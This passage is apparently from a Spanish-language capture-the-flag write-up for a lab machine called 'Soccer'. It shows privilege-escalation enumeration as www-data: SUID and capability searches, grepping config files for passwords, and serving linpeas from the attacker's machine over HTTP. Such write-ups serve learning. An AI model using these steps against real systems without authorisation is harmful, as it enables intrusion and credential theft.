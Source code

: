 ```sh
lrwxrwxrwx 1 root   root      9 Nov 17  2022 .viminfo -> /dev/null
-rw-r----- 1 root   player   33 Jul  4 06:05 user.txt
www-data@soccer:/home/player$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@soccer:/home/player$ cat user.txt
cat: /home/player/user.txt: Permission denied
```

## Escalada de priviegios

Somos el usuario www-data, tendremos que escalar al usuario player y luego escalar a root. Si se pudiera subir a root directo perfecto, pero no suele ser el caso, las máquinas están pensadas para que sea una escalada progresiva. Empezemos revisando lo típico:
```sh
www-data@soccer:/home/player$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@soccer:/home/player$ sudo -l
[sudo] password for www-data: 
# No cuento con contraseña
www-data@soccer:/home/player$ find / \-perm -4000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
-- skip -- # Era más de snap
www-data@soccer:/home/player$ getcap -r 2>/dev/null
# Sin resultados
```
```sh
www-data@soccer:/$ find -name \*config\* 2>/dev/null | xargs cat 2>/dev/null | grep -iE "passwd|password" | wc -l
20
www-data@soccer:/$ find -name \*config\* 2>/dev/null | xargs cat 2>/dev/null | grep -iE "passwd|password"        
syn keyword sshdconfigRootLogin prohibit-password without-password forced-commands-only
syn keyword sshdconfigRootLogin prohibit-password without-password forced-commands-only
syn keyword sshdconfigKeyword KerberosOrLocalPasswd
syn keyword sshdconfigKeyword PasswordAuthentication
syn keyword sshdconfigKeyword PermitEmptyPasswords
syn keyword sshconfigPreferredAuth hostbased publickey password gssapi-with-mic
syn keyword sshconfigKeyword NumberOfPasswordPrompts
syn keyword sshconfigKeyword PasswordAuthentication
Binary file (standard input) matches
```
Como no veo nada de nada voy a pasarme el linpeas de mi máquina al objetivo, desde local:
```sh
> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Y desde objetivo: